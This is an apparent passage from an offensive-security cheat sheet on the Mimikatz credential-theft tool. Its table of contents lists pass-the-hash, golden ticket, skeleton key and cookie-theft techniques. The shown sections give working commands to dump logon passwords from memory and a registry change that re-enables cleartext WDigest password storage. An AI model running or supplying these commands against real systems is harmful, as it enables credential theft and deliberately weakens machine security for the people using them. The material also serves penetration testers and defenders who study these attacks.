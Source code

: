 # Windows - Mimikatz

## Summary

* [Mimikatz - Execute commands](#mimikatz---execute-commands)
* [Mimikatz - Extract passwords](#mimikatz---extract-passwords)
* [Mimikatz - LSA Protection Workaround](#mimikatz---lsa-protection-workaround)
* [Mimikatz - Mini Dump](#mimikatz---mini-dump)
* [Mimikatz - Pass The Hash](#mimikatz---pass-the-hash)
* [Mimikatz - Golden ticket](#mimikatz---golden-ticket)
* [Mimikatz - Skeleton key](#mimikatz---skeleton-key)
* [Mimikatz - RDP session takeover](#mimikatz---rdp-session-takeover)
* [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
  * [Chrome Cookies & Credential](#chrome-cookies--credential)
  * [Task Scheduled credentials](#task-scheduled-credentials)
  * [Vault](#vault)
* [Mimikatz - Commands list](#mimikatz---commands-list)
* [Mimikatz - Powershell version](#mimikatz---powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Mimikatz - Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Mimikatz - Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
